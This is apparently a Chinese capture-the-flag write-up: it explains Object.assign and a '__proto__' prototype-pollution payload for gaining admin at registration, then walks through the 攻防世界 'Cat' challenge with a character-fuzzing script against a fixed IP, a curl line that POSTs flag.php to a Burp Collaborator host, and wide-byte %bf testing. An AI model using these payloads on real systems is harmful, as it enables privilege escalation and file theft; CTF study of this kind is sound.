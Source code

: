 - Object.assign() 是一个 JavaScript 函数，用于将一个或多个源对象的属性复制到目标对象中。它的语法如下：
```
Object.assign(target, ...sources)
```

- 其中，target 表示目标对象，sources 表示一个或多个源对象
```javascript
const target = { a: 1, b: 2 };
const source = { b: 4, c: 5 };

Object.assign(target, source);

console.log(target); // { a: 1, b: 4, c: 5 }
```

- 在上面的示例中，target 对象的属性 b 被源对象 source 的属性 b 覆盖了，属性 c 则被复制到了 target 对象中。
- 所以在注册的时候，添加一个`"__proto__":{"isAdmin":"true"}`
# 攻防世界 Cat(难度4) django
## 思路

- 我在测试的时候输入cat，显示了这个是ping的界面，用以前的；截断，那些管道符不行，我就没招了

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1682236679366-0389a96c-5afe-4122-9463-c2a2f33ea5e3.png#averageHue=%23faf9f7&clientId=u4864fe20-f26f-4&from=paste&height=119&id=ub8ac47fe&originHeight=237&originWidth=1187&originalType=binary&ratio=2&rotation=0&showTitle=false&size=34112&status=done&style=none&taskId=ub6a4fde1-2c62-4d1e-b58a-8087a3d93f5&title=&width=593.5)
## wp
### fuzz测试

- 测试一下有哪些可用的字符，上脚本,这里用了多线程，能快点
```python
import requests
import concurrent.futures
url = "http://61.147.171.105:63663/index.php?url="

def test_char(i):
    r = requests.get(url + chr(i))
    if("Invalid URL" not in r.text):
        print(f"{i} {chr(i)}")
        
with concurrent.futures.ThreadPoolExecutor() as executor:
    for i in range(32, 127):
        executor.submit(test_char, i)
```

- 测试之后，发现'@'字符可用。
- 之前在学`Burp Collaborator`时，用`@`可以读取文件信息。(md 实际上早都忘记了)
```shell
curl -X POST -F xx=@flag.php  http://8clb1g723ior2vyd7sbyvcx6vx1ppe.burpcollaborator.net
```
### 宽字节测试

- 用`%bf`试一下，发现报错了。首先发现是django框架，且说明后端用的是gbk编码，超过%F7的在gbk中不再有意义
